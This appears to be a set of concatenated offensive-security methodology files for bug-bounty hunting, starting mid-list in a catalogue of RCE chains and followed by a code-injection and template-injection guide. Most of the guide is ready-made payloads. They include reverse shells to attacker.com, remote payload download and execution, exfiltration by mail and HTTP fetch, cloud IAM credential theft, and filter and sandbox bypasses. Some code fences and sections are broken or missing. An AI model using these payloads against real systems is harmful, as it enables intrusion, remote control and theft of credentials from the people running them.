- **Impact:** RCE as the database user, which on managed Postgres frequently has IAM credentials and direct access to other AWS resources.
- **Real shape:** Multiple H1 disclosures 2020-2024 across SaaS apps backed by Postgres. Cross-refs `hunt-sqli` Disclosed Report Citation #12 and root cause discussion of `FILE`/`xp_cmdshell` privileges.

### Chain 3 — Image Upload + Path Traversal in Filename + Misconfigured MIME Serving → Webshell

- **A.** File upload accepts images (`image/png`, `image/jpeg`). The server saves with the user-supplied filename or only validates Content-Type, not actual content.
- **B.** Upload a `.aspx`/`.jsp`/`.php` file with the correct image magic-bytes (`GIF89a` + PHP after) and a filename containing `../` to write outside the upload directory into the web-root (`../../../public/webshell.php`).
- **C.** Request `https://target/webshell.php?cmd=id` — server's PHP/ASP.NET handler runs the script regardless of extension policy because the path doesn't pass through the upload-dir filter.
- **Impact:** Unauthenticated or low-priv attacker gets webshell on the application server with the web-server's process privileges.
- **Real shape:** Multiple disclosed H1 cases on legacy upload handlers; canonical pre-2020 RCE class. Pairs with `hunt-file-upload` (upload bypass table) and `hunt-misc` path-traversal patterns.

### Chain 4 — Prototype Pollution + Lodash/Mongoose Gadget Chain → `child_process.spawn` → Node RCE

- **A.** Identify prototype pollution sink — JSON merge / Object.assign / lodash `_.merge` / Node `Object.create` chain receiving attacker JSON.
- **B.** Pollute `Object.prototype.shell` to `true` OR `Object.prototype.env.NODE_OPTIONS` to `--require ./malicious.js`. The polluted prototype reaches a downstream `child_process.spawn` or `vm.runInThisContext`.
- **C.** Sink executes with attacker-controlled shell/env → attacker code runs in Node.js process context with full access to environment variables, AWS metadata, internal services.
- **Impact:** Server-side JS execution from a JSON POST. Common in Express apps using `body-parser` + `lodash.merge` for config-merging.
- **Real shape:** `lodash.merge` CVE-2018-16487, CVE-2019-10744, CVE-2020-8203; `mongoose` CVE-2024-53900 (cross-refs `hunt-sqli` Disclosed Report Citation #10 — same gadget family reaches Mongo `$where` instead of process).

### Chain 5 — Unencrypted ViewState + Recovered MachineKey → ASP.NET Deserialization → RCE (ToolShell class)

- **A.** Identify an ASP.NET endpoint where `__VIEWSTATEENCRYPTED=""` (ViewState is signed but not encrypted). Confirm via Burp / curl on form-bearing pages.
- **B.** Recover the `<machineKey>` validationKey — via config leak (`/web.config` accessible), via subdomain takeover of a sibling app sharing the key, or via the CVE-2025-53771 ToolShell exploit chain that exfils the key on Subscription Edition.
- **C.** Forge a ViewState using `ysoserial.net --plugin=ViewState --validationkey=<key>` with a `TypeConfuseDelegate` / `WindowsIdentity` payload. Submit to the endpoint. ASP.NET deserialises into a method-call gadget chain ending in `Process.Start` → RCE as the worker-process identity.
- **Impact:** Full RCE on the IIS web front-end with whatever the AppPool identity grants — often `NETWORK SERVICE` (with SharePoint farm-account access) or higher.
- **Real shape:** CVE-2025-53770 / 53771 ToolShell (July 2025 emergency advisory); SP2013 unpatched-by-EoL exposure. Cross-refs `hunt-sharepoint` ToolShell precondition chain and `hunt-aspnet` ViewState dual-parser anti-pattern.

### Chain 6 — XXE + PHP `expect://` Stream Wrapper → Direct RCE on Legacy PHP

- **A.** XXE confirmed via OOB DTD callback (`<!ENTITY % x SYSTEM "http://attacker/dtd">`).
- **B.** Target runs PHP with the `expect` extension enabled (rare in 2026, but still present on legacy hosts and some shared-hosting providers).
- **C.** Send `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id">]><foo>&xxe;</foo>` — PHP's stream wrapper executes `id` through expect → output returned in entity expansion or via OOB.
- **Impact:** RCE as the PHP/web-server user without needing a separate upload or SQLi primitive.
- **Real shape:** Rockstar Games emblem editor XXE H1 #347139 (2018, $1,500); Adobe Commerce CosmicSting CVE-2024-34102 (XXE → RCE via crypt-key exfil). Cross-refs `hunt-xxe` Disclosed Report Citation #7 and #10.

### Operator-level pattern

Every modern RCE chain has two halves: **the bytes get there** (SSRF, SQLi, upload, prototype-pollution, ViewState, XXE) and **the bytes get interpreted** (lambda invoke, COPY PROGRAM, webshell handler, child_process.spawn, deserializer gadget, expect://). Hunt for the first half; the second is usually one of the six above. If your first-half primitive doesn't compose with any of these — pause before submitting. "Could lead to RCE" is Low/Medium; "RCE demonstrated end-to-end" is Critical.

Cross-references:
- `hunt-ssrf` — Chain 1
- `hunt-sqli` — Chain 2
- `hunt-file-upload` — Chain 3
- `hunt-api-misconfig` (proto-pollution) — Chain 4
- `hunt-sharepoint` + `hunt-aspnet` — Chain 5
- `hunt-xxe` — Chain 6

---

## Related Skills & Chains

- **`hunt-ssti`** — Template engines that hit `eval()`/`exec()`/`os.system()` are RCE hiding behind a render call. Chain primitive: Jinja2 `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}` reflected in email-template preview → unauthenticated RCE as the worker process.
- **`hunt-file-upload`** — File-write primitives become RCE when the upload directory is web-served, processed by a deserializer, or loaded by a `.htaccess`/`web.config`. Chain primitive: SVG/PHP polyglot bypasses MIME check → direct `GET /uploads/shell.php?cmd=id` → RCE; or DOCX with `phar://` stream wrapper → PHP object deserialization → RCE.
- **`hunt-ssrf`** — When the RCE primitive lives on an internal-only endpoint (admin console, internal Redis, Jenkins script-console), gate it through an SSRF. Chain primitive: external SSRF → `http://127.0.0.1:8080/manage/scriptText` (Jenkins/Tomcat) → Groovy `Runtime.exec` → RCE; or SSRF → `gopher://redis:6379` write to crontab → RCE.
- **`hunt-aspnet`** — ASP.NET ViewState deserialization is a giant RCE class behind a known `__VIEWSTATE` parameter. Chain primitive: machineKey recovery (or leaked `<machineKey>` from `web.config` disclosure) → `ysoserial.net -p ViewState -g TypeConfuseDelegate` → RCE as `IIS APPPOOL\<name>`.
- **`security-arsenal`** — Reach for the deserialization payload tree (ysoserial Java gadget chains, ysoserial.net for .NET ViewState/BinaryFormatter, Python pickle `__reduce__`, Ruby Marshal, PHP `phar://` metadata, Node `node-serialize` IIFE) the moment you have a sink that accepts serialized bytes.
- **`triage-validation`** — Apply the Pre-Severity Gate before claiming Critical. A "blind RCE" that turns out to be file-write-only with no execution path is not RCE; a sandboxed eval that can't reach `os` is at best Medium SSTI. Prove `whoami`/OOB DNS callback with a unique marker before writing the report.


### From `normal-skills/code-injection.md`

name: code-injection
description: Comprehensive code injection testing methodology covering server-side eval injection, server-side template injection (SSTI) across major engines, and expression language injection (SpEL, OGNL, EL) with optimized payloads, sandbox escape chains, and detection techniques.
version: 1.0.0
---

## Overview

Code Injection occurs when an application evaluates user-supplied input as executable code within the context of the running application. Unlike command injection (which targets the OS shell), code injection targets the language interpreter itself, granting execution within the application's runtime with its full privileges and access to in-memory objects.

**Three Primary Attack Vectors:**

1. **Server-Side Code Injection:** Direct evaluation of user input via language-native `eval()`, `exec()`, or equivalent functions
2. **Server-Side Template Injection (SSTI):** Injection into template engines that compile user input into executable code
3. **Expression Language (EL) Injection:** Abuse of expression evaluation frameworks in Java/.NET ecosystems

**Execution Contexts:**
- **PHP:** `eval()`, `assert()`, `preg_replace('/e')`, `create_function()`, `unserialize()` with POP chains
- **Python:** `eval()`, `exec()`, `compile()`, `pickle.loads()`, `yaml.load()`, `ast.literal_eval()` bypasses
- **Node.js:** `eval()`, `vm.runInContext()`, `vm.runInNewContext()`, `new Function()`, `setTimeout(string)`
- **Ruby:** `eval()`, `instance_eval()`, `class_eval()`, `module_eval()`, `Kernel.eval()`
- **Java:** `ScriptEngine.eval()`, `ELProcessor.eval()`, `Method.invoke()` via reflection chains
- **Template Engines:** Jinja2, Twig, Smarty, Freemarker, Velocity, Razor, Handlebars, Mustache, ERB, Slim
- **Expression Languages:** Spring SpEL, Apache OGNL, Java Unified EL, JEXL, MVEL

---

### 1.1 Initial Reconnaissance

Identify potential injection points:
- URL parameters, query strings, JSON/XML body fields
- HTTP headers (`User-Agent`, `Referer`, `X-Forwarded-For`, custom headers)
- Cookie values, JWT claims, session tokens
- File upload filenames, metadata, and content processing
- Email template fields, SMS message bodies
- Report generation parameters (PDF, CSV, DOCX)
- Log message formatting strings
- Error message templates
- Configuration file values parsed dynamically
- GraphQL query fields and variables

### 1.2 Fingerprinting the Evaluation Context

**Determine Language/Framework:**
```
PHP probes:
{{7*7}}                    # If SSTI: 49
${7*7}                     # If EL: 49
<?php echo 7*7; ?>         # Direct PHP eval
phpinfo()                  # PHP-specific output

Python probes:
{{7*7}}                    # 49 in Jinja2
${7*7}                     # May fail in Python contexts
__import__('os').system('id')
str(__import__('os').popen('id').read())

Node.js probes:
${7*7}                     # 49 in some template contexts
typeof(require)            # 'function' if Node
process.version
global.process.mainModule.require('child_process').execSync('id').toString()

Ruby probes:
<%= 7*7 %>                 # 49 in ERB
#{7*7}                     # String interpolation
%x{id}
`id`

Java probes:
${7*7}                     # 49 in EL
#{7*7}                     # May vary by framework
T(java.lang.Math).random()
```

**Error-Based Fingerprinting:**
- Submit `{{7*'7'}}` — Jinja2 returns `7777777` (string multiplication), Twig returns `49` (integer math)
- Submit `${7*7}` — SpEL returns `49`, OGNL may fail or return `49`
- Submit syntax errors (`{{`, `${`, `<%`) and observe stack traces revealing engine names

### 1.3 Basic Detection Payloads

**Mathematical Confirmation:**
```
{{7*7}}
${7*7}
#{7*7}
<%= 7*7 %>
${{7*7}}
*{7*7}
[[7*7]]
${{<%[%'"}}%\
```

**String Concatenation Tests:**
```
{{'7'+'7'}}               # Python/Jinja2: '77', PHP: 14, JS: '77'
${'7'+'7'}                # SpEL: '77', OGNL: may vary
<%= '7' + '7' %>          # Ruby/ERB: '77'
```

**Context-Aware Detection:**
```
${T(java.lang.Runtime).getRuntime().exec('id')}    # SpEL/Java
{{config}}                                          # Jinja2/Twig
{{7*'7'}}                                           # Jinja2 fingerprint
{{dump(app)}}                                       # Symfony/Twig
${@java.lang.Math@random()}                         # OGNL
```

---

### 2.1 PHP eval() Injection

**Basic Execution:**
```
system('id');
exec('id');
passthru('id');
shell_exec('id');
`id`;
```

**File Operations:**
```
file_get_contents('/etc/passwd');
readfile('/etc/passwd');
highlight_file('/etc/passwd');
show_source('/etc/passwd');
var_dump(scandir('/etc'));
```

**Code Evaluation Wrappers:**
```
eval("echo system('id');");
assert("system('id')");
preg_replace('/.*/e', 'system("id")', '');
create_function('$a', 'system("id");');
```

**Reverse Shell via eval():**
```
eval(base64_decode('c3lzdGVtKCJiYXNoIC1pID4mIC9kZXYvdGNwL2F0dGFja2VyLmNvbS80NDQ0IDA+JjEiKTs='));
// Decodes to: system("bash -i >& /dev/tcp/attacker.com/4444 0>&1");
```

**PHP Filter Chains for File Read:**
```
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://input with POST data containing <?php system('id'); ?>
data://text/plain,<?php system('id'); ?>
expect://id
```

**Object Injection to RCE (unserialize POP chains):**
```
O:4:"Test":1:{s:4:"test";s:10:"phpinfo();";}
// Requires known vulnerable class with __destruct/__wakeup
```

**Dynamic Function Execution:**
```
$_='a'.'s'.'s'.'e'.'r'.'t'; $_($_POST['cmd']);
$func = 'sys'.'tem'; $func('id');
call_user_func('system', 'id');
array_map('system', array('id'));
```

### 2.2 Python exec()/eval() Injection

**Basic Execution:**
```
__import__('os').system('id')
__import__('os').popen('id').read()
__import__('subprocess').check_output('id', shell=True)
```

**Restricted Environment Bypasses:**
```

# Or find os module in subclasses:
[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == '_wrap_close'][0].__init__.__globals__['system']('id')

# Alternative builtins access:
(().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['__import__']('os')).system('id')
```

**File Read:**
```
open('/etc/passwd').read()
__import__('pathlib').Path('/etc/passwd').read_text()
```

**Reverse Shell:**
```
__import__('socket').socket().__class__('',('',4444)).connect(('attacker.com',4444))

# Better:
__import__('subprocess').call('bash -i >& /dev/tcp/attacker.com/4444 0>&1', shell=True)
```

**Pickle/Marshal Deserialization:**
```

# If pickle.loads() is used with user input:
import pickle, base64, os
payload = b"cos\nsystem\n(S'id'\ntR."

# Or use __reduce__ for RCE chains
```

**YAML Deserialization:**
```
!!python/object/apply:os.system ["id"]
!!python/object/apply:subprocess.check_output ["id"]
```

**AST Bypass (if ast.literal_eval is used incorrectly):**
```

# ast.literal_eval only allows literals, but if wrapped in eval():
eval(ast.literal_eval('("__import__(\\"os\\").system(\\"id\\")")'))
```

### 2.3 Node.js vm.runInContext() Injection

**Basic Execution:**
```
require('child_process').execSync('id').toString()
require('child_process').exec('id', (e,o,s)=>console.log(o))
process.mainModule.require('child_process').execSync('id').toString()
```

**If require is unavailable (vm context):**
```
this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id').toString()
```

**Alternative execution paths:**
```
eval("require('child_process').execSync('id')")
new Function("return require('child_process').execSync('id')")()
setTimeout("require('child_process').execSync('id')", 0)
```

**File Read:**
```
require('fs').readFileSync('/etc/passwd').toString()
```

**Reverse Shell:**
```
require('net').connect(4444,'attacker.com').on('data',function(c){require('child_process').exec(c.toString(),function(e,o,s){this.write(o)})})
```

### 2.4 Ruby eval() Injection

**Basic Execution:**
```
system('id')
`id`
%x{id}
exec('id')
fork{exec('id')}
```

**File Read:**
```
File.read('/etc/passwd')
IO.read('/etc/passwd')
open('/etc/passwd').read
```

**Reverse Shell:**
```
require 'socket';c=TCPSocket.new('attacker.com',4444);while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end
```

**Object Space Traversal (if restricted):**
```
ObjectSpace.each_object(Class){|c| puts c}
Module.constants.select{|c| c.to_s =~ /Process/}
```

**ERB Template Injection:**
```
<%= system('id') %>
<%= `id` %>
<%= File.read('/etc/passwd') %>
```

### 2.5 Java ScriptEngine.eval() Injection

**Nashorn Engine (Java 8+):**
```
Java.type('java.lang.Runtime').getRuntime().exec('id')
var ProcessBuilder = Java.type('java.lang.ProcessBuilder'); new ProcessBuilder('id').start()
```

**Groovy Engine:**
```
"id".execute().text
new ProcessBuilder('id').start()
```

**JShell (Java 9+):**
```
java.lang.Runtime.getRuntime().exec("id")
```

**Beanshell:**
```
Runtime.getRuntime().exec("id");
new ProcessBuilder(new String[]{"id"}).start();
```

**Reflection Chains:**
```
var clazz = java.lang.Class.forName('java.lang.Runtime');
var method = clazz.getMethod('getRuntime');
var runtime = method.invoke(null);
runtime.exec('id');
```

---

### 3.1 Jinja2 (Python)

**Fingerprinting:**
```
{{7*7}}              # 49
{{7*'7'}}            # 7777777 (string multiplication confirms Jinja2)
{{config}}           # Shows configuration
{{self}}             # Template reference
```

**Basic Information Disclosure:**
```
{{config}}
{{self.__dict__}}
{{url_for.__globals__}}
{{get_flashed_messages.__globals__}}
{{request}}
{{session}}
```

**MRO Traversal to RCE:**
```
{{''.__class__.__mro__[1].__subclasses__()}}
{{''.__class__.__mro__[1].__subclasses__()[137]}}  # Often os._wrap_close or similar

# Alternative using __builtins__:
{{''.__class__.__mro__[1].__subclasses__()[80].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}}
```

**Optimized Subclass Search:**
```

# Find index of _wrap_close or similar:

  
    {{ c.__init__.__globals__['popen']('id').read() }}
  

```

**Direct os Module Access:**
```
{{().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /etc/passwd').read()}}
```

**File Read without os:**
```
{{().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

**Reverse Shell:**
```
{{().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"').read()}}
```

**Config Object Abuse:**
```
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
{{url_for.__globals__['os'].popen('id').read()}}
{{get_flashed_messages.__globals__['os'].popen('id').read()}}
```

**Jinja2 Filter Abuse:**
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

### 3.2 Twig (PHP)

**Fingerprinting:**
```
{{7*7}}              # 49
{{7*'7'}}            # 49 (integer math, unlike Jinja2)
{{dump(app)}}        # Symfony app dump
```

**Basic Information Disclosure:**
```
{{_self}}
{{_context}}
{{_charset}}
{{dump(_context)}}
{{dump(app)}}
```

**Function Filter Abuse:**
```
{{['id']|filter('system')}}
{{['cat /etc/passwd']|filter('passthru')}}
{{['id']|filter('exec')}}
{{['bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"']|filter('system')}}
```

**Map Filter Abuse:**
```
{{['id']|map('system')|join}}
{{['cat /etc/passwd']|map('passthru')|join}}
```

**Reduce Filter Abuse:**
```
{{['id', 0]|reduce('system')}}
```

**Sort Filter with Callback:**
```
{{['id']|sort('system')}}
```

**Array Callback via attribute:**
```
{{_self.env.registerUndefinedFilterCallback('system')}}
{{_self.env.getFilter('id')}}
```

**Symfony-Specific:**
```
{{app.request.server.all}}
{{app.request.headers.all}}
{{app.session.metadata}}
```

**File Read via Twig:**
```
{{'/etc/passwd'|file_excerpt(1,30)}}
```

### 3.3 Smarty (PHP)

**Fingerprinting:**
```
{$smarty.version}
```

**{php} Tag Execution (Legacy/Deprecated):**
```
{php}system('id');{/php}
{php}echo shell_exec('id');{/php}
{php}passthru('id');{/php}
```

**Template Object Abuse:**
```
{$smarty.template_object}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php system('id'); ?>",self::clearConfig())}
```

**Config Load Abuse:**
```
{config_load file='../../../../etc/passwd'}
```

**Fetch Plugin:**
```
{fetch file='file:///etc/passwd'}
{fetch file='http://attacker.com/exfil'}
```

**Mail Plugin:**
```
{mail to='attacker@evil.com' from=$smarty.template_object|base64_encode subject='Exfil'}
```

**Self-Modifier Abuse:**
```
{self::clearConfig()}
```

### 3.4 Freemarker (Java)

**Fingerprinting:**
```
<#assign test = 7*7>${test}    # 49
${7*7}                         # 49
```

**New Built-In Abuse (Freemarker 2.3.x):**
```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
<#assign ex="freemarker.template.utility.ObjectConstructor"?new()>${ex("java.lang.ProcessBuilder","id").start()}
```

**Jython Runtime Abuse:**
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os; os.system("id")</@value>
```

**API Model Abuse:**
```
<#assign classLoader=object.__class__.getClassLoader()>${classLoader.loadClass("java.lang.Runtime").getRuntime().exec("id")}
```

**ProcessBuilder Direct:**
```
<#assign ex = "freemarker.template.utility.ObjectConstructor"?new()>${ex("java.lang.ProcessBuilder","/bin/sh","-c","id").start()}
```

**Reverse Shell:**
```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'")}
```

### 3.5 Velocity (Java)

**Fingerprinting:**
```
#set($test = 7*7)$test        # 49
```

**Class Tool Abuse:**
```
#set($str=$class.inspect("java.lang.String").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..50])#if($out.available()>0)$out.read()#else#break#end#end
```

**Alternative with ProcessBuilder:**
```
#set($pb=$class.inspect("java.lang.ProcessBuilder").type.getConstructor($class.inspect("[Ljava.lang.String;").type).newInstance(["/bin/sh","-c","id"]))
#set($p=$pb.start())
#set($io=$class.inspect("java.io.BufferedReader").type.getConstructor($class.inspect("java.io.InputStreamReader").type).newInstance($p.getInputStream()))
$io.readLine()
```

**Simplified Output:**
```
#set($e="exp")
$e.getClass().forName("java.lang.Runtime").getRuntime().exec("id")
```

### 3.6 Razor (.NET)

**Fingerprinting:**
```
@(7*7)              # 49
@Model              # Model reference
```

**Direct Code Execution:**
```
@System.Diagnostics.Process.Start("cmd","/c whoami")
@typeof(int).Assembly
```

**File Read:**
```
@System.IO.File.ReadAllText("/etc/passwd")
@System.IO.File.ReadAllText("C:\\Windows\\win.ini")
```

**Assembly Loading:**
```
@System.Reflection.Assembly.LoadFile("C:\\path\\to\\evil.dll")
```

**Reverse Shell:**
```
@{
    var p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c bash -i >& /dev/tcp/attacker.com/4444 0>&1";
    p.Start();
}
```

### 3.7 Handlebars (Node.js)

**Fingerprinting:**
```
{{7*7}}             # 49 (if not escaped)
```

**Helper Abuse:**
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id');"}}
        {{this.pop}}
        {{conslist (array 0) (codelist 0)}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

**Simplified Prototype Pollution to RCE:**
```
{{#with this as |root|}}
  {{#with root.constructor}}
    {{#with prototype}}
      {{#with toString}}
        {{#with constructor}}
          {{this "return require('child_process').execSync('id').toString()"}}
        {{/with}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

### 3.8 ERB (Ruby)

**Basic Execution:**
```
<%= system('id') %>
<%= `id` %>
<%= %x{id} %>
<%= File.read('/etc/passwd') %>
<%= IO.popen('id').read %>
```

**Reverse Shell:**
```
<%= require 'socket';c=TCPSocket.new('attacker.com',4444);while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end %>
```

---

### 4.1 Spring SpEL (Spring Expression Language)

**Fingerprinting:**
```
${7*7}              # 49
#{7*7}              # 49 (in some contexts)
```

**Basic Information Disclosure:**
```
${T(java.lang.Math).random()}
${T(java.lang.Runtime).getRuntime().freeMemory()}
${systemProperties}
${systemEnvironment}
```

**Direct RCE:**
```
${T(java.lang.Runtime).getRuntime().exec('id')}
${T(java.lang.Runtime).getRuntime().exec('bash -c bash -i >& /dev/tcp/attacker.com/4444 0>&1')}
```

**ProcessBuilder (Bypass Runtime blacklists):**
```
${new java.lang.ProcessBuilder('id').start()}
${new java.lang.ProcessBuilder('/bin/sh','-c','id').start()}
```

**Reflection Evasion:**
```
${T(String).getClass().forName('java.lang.Runtime').getRuntime().exec('id')}
${''.getClass().forName('java.lang.Runtime').getRuntime().exec('id')}
```

**URLClassLoader for Remote Code Loading:**
```
${new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://attacker.com/evil.jar')}).loadClass('Evil').newInstance()}
```

**ScriptEngine Abuse:**
```
${T(javax.script.ScriptEngineManager).newInstance().getEngineByName('nashorn').eval('java.lang.Runtime.getRuntime().exec("id")')}
```

**SpEL in Spring Data / QueryDSL:**
```
?#{T(java.lang.Runtime).getRuntime().exec('id')}
```

### 4.2 OGNL (Object-Graph Navigation Language - Apache Struts)

**Fingerprinting:**
```
${7*7}              # 49
%{7*7}             # 49 (Struts specific)
```

**Context Access:**
```
${#context}
${#parameters}
${#session}
${#request}
${#response}
${#application}
${#attr}
```

**Direct RCE:**
```
${#cmd='id',#rt=@java.lang.Runtime@getRuntime(),#rt.exec(#cmd)}
${@java.lang.Runtime@getRuntime().exec('id')}
```

**ProcessBuilder:**
```
${new java.lang.ProcessBuilder('id').start()}
${new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/sh","-c","id"}).start()}
```

**OGNL with Parameter Assignment:**
```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

**Struts2 Specific (CVE-2017-5638 style):**
```
%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'id'})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

**OGNL Sandbox Bypass:**
```
${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS}
${#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']}
```

### 4.3 Unified EL (Java/Jakarta EE)

**Fingerprinting:**
```
${7*7}              # 49
#{7*7}             # May work in JSF contexts
```

**FacesContext Access:**
```
${facesContext.getExternalContext().getResponse().getWriter().println('test')}
${facesContext.getExternalContext().getResponse().getWriter().flush()}
```

**Application Scope:**
```
${applicationScope}
${sessionScope}
${requestScope}
```

**InitParam Extraction:**
```
${initParam}
${initParam['javax.faces.STATE_SAVING_METHOD']}
```

**RCE via Method Expression:**
```
#{request.setAttribute('x',''.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('id'))}
```

**JSF Value Expression to RCE:**
```
${''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('id')}
```

**EL in JSP/JSTL:**
```
${pageContext.request.getSession().getServletContext().getClassLoader().getParent().loadClass('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('id')}
```

### 4.4 JEXL (Apache Commons JEXL)

**Basic Execution:**
```
${''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('id')}
${new('java.lang.ProcessBuilder','id').start()}
```

### 4.5 MVEL (MVFLEX Expression Language)

**Basic Execution:**
```
new java.lang.ProcessBuilder('id').start();
Runtime.getRuntime().exec('id');
```

---

### 5.1 String Concatenation & Encoding

**PHP Evasion:**
```
sy.(st).(em)('id')           # Invalid PHP - use variable interpolation
$a='sys';$b='tem';$a.$b('id') # If multiple statements allowed
$s='syste'.'m'; $s('id')
(base64_decode('c3lzdGVt'))('id')
```

**Python Evasion:**
```
__import__('o'+'s').system('id')
getattr(__import__('o'+'s'), 'sys'+'tem')('id')
__builtins__.__dict__['__import__']('os').__dict__['system']('id')
```

**Jinja2 Evasion (Attr/Filter Bypass):**
```
{{().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('id').read()}}

# If quotes blocked:
{{().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__[request.args.cmd](request.args.arg)}}

# Hex encoding attribute names:
{{()|attr('\x5f\x5fclass\x5f\x5f')}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbases\x5f\x5f')|first|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
```

**Twig Evasion:**
```
{{['id']|filter('system')}}
{{['id']|filter('sy'.'stem')}}    # If concatenation works
```

**SpEL Evasion:**
```
${T(java.lang.Math).random()}     # Safe-looking probe
${T(java.lang.Runtime).getRuntime().exec('id')}
${T('java.lang.Runtime').getRuntime().exec('id')}  # String class reference
```

# Some frameworks normalize Unicode before evaluation
＿＿class＿＿  # Fullwidth underscores
ｃｌａｓｓ      # Fullwidth letters
```

**Case Variation (Windows/.NET):**
```
@System.Diagnostics.Process.Start("cmd","/c whoami")
@SYSTEM.DIAGNOSTICS.PROCESS.START("cmd","/c whoami")
```

### 5.4 Quote Bypass

**Python:**
```
__import__(chr(111)+chr(115)).system(chr(105)+chr(100))
```

**Jinja2:**
```
{{().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__[request.args.a](request.args.b)}}
```

**SpEL:**
```
${T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{105,100}))}
```

### 5.5 Blacklist Keyword Bypass

**If "os" is blocked in Python:**
```
import sys; sys.modules['os']
__import__('o'+'s')
__import__(chr(111)+chr(115))
```

**If "system" is blocked:**
```
__import__('os').popen('id').read()
__import__('subprocess').check_output('id',shell=True)
__import__('os').__dict__['sys'+'tem']('id')
```

**If "Runtime" is blocked in Java:**
```
''.getClass().forName('java.lang.'+String.fromCharCode(82)+'untime').getMethod('getRuntime').invoke(null).exec('id')
```

**If "exec" is blocked:**
```
''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).getClass().getMethod('ex'+'ec',''.getClass()).invoke(null,'id')
```

# Alternative via warnings.catch_warnings:
().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['__builtins__']['__import__']('os').system('id')
```

**Node.js vm Context Escape:**
```
this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id')
```

**Java SecurityManager Bypass:**
```

# Use ScriptEngine or URLClassLoader to bypass
T(javax.script.ScriptEngineManager).newInstance().getEngineByName('nashorn').eval('java.lang.Runtime.getRuntime().exec("id")')
```

---

### 6.1 Multi-Stage RCE Chains

**Jinja2 → Reverse Shell via wget/curl:**
```
{{().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('wget http://attacker.com/shell.py -O /tmp/shell.py && python3 /tmp/shell.py').read()}}
```

**Twig → File Write → Web Shell:**
```
{{['echo "<?php system($_GET[1]); ?>" > /var/www/html/shell.php']|filter('system')}}
```

**SpEL → Memory Shell Injection:**
```
${T(org.springframework.cglib.core.ReflectUtils).defineClass('Evil',T(sun.misc.BASE64Decoder).newInstance().decodeBuffer('...'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance()}
```

# Ends in ScriptEngine.eval() with attacker-controlled string
```

**Python pickle → exec():**
```
import pickle, base64, os
class RCE:
    def __reduce__(self):
        return (os.system, ('id',))
payload = base64.b64encode(pickle.dumps(RCE()))
```

### 6.3 Cloud Metadata Extraction via Code Injection

**Python/Jinja2:**
```
{{().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/').read()}}
```

**Java/SpEL:**
```
${T(java.lang.Runtime).getRuntime().exec('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/')}
```

**Node.js:**
```
